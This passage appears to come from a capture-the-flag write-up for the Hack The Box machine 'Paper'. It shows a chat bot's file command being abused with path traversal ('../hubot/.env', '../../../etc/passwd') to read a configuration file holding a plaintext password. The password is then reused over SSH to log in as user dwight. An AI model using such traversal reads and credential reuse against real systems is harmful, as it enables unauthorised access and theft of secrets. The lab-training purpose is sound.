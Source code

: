 I found `.env` file which usually contains critical information.
Let's read this file.

```bash
recyclops file ../hubot/.env

=========================

 <!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```

It discloses the user `recyclops`'s password : `Queenofblad3s!23`

Just to check which user exists on the system, I read `/etc/passwd` file.

```bash
recyclops file ../../../etc/passwd

=========================

root❌0:0:root:/root:/bin/bash

...SNIP...

rocketchat❌1001:1001::/home/rocketchat:/bin/bash
dwight❌1004:1004::/home/dwight:/bin/bash
```

It has `rocketchat` as a user, so hopefully I can use the found credential.
Let's test this password with these two accounts; `rocketchat`, `dwight`.

```bash
┌──(kali㉿kali)-[~/htb/paper]
└─$ ssh rocketchat@10.10.11.143          
rocketchat@10.10.11.143's password: 
Permission denied, please try again.
rocketchat@10.10.11.143's password: 



┌──(kali㉿kali)-[~/htb/paper]
└─$ ssh dwight@10.10.11.143    
dwight@10.10.11.143's password: 
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ id
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
[dwight@paper ~]$ whoami
dwight
```
